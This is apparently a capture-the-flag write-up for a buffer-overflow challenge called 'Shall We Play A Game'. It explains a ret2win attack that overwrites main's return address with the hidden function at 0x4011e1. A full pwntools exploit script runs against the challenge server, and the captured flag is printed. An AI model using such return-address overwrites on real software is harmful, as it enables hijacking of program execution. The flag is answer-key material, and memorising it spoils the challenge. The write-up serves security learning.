 # Shall We Play A Game
>

## About the Challenge
This is a classic pwn challenge. We are given an ELF file, and we need to overflow the buffer using our input

## How to Solve?
There is a function that never run by the script (global_thermo_nuclear_war).

![Ghidra](assets/image1.png)

It's located on ```0x00000000004011e1```. And our task is to run this function by override the memory address on return function main

I wrote a script in python using pwntools to make it easy for me

```python
from pwn import *
import struct
import pwn

context(arch='i386', os='linux')

# p = process('./chal')
p = remote('gold.b01le.rs',4004)

offset = 72
buff = pwn.p64(0x00000000004011e1)

payload = b'A'* offset + buff

p.recvline()
p.sendline("AAA")
p.recvline()
p.sendline("AAA")
p.recvline()
p.sendline("AAA")
p.recvline()
p.sendline(payload)
p.recvline()
s = p.recvline()
print(s)
```

After we run that, we got the flag

![Flag](assets/image2.png)

```text
flag : bctf{h0w_@bo0ut_a_n1ce_g@m3_0f_ch3ss?_ccb7a268f1324c84}
```


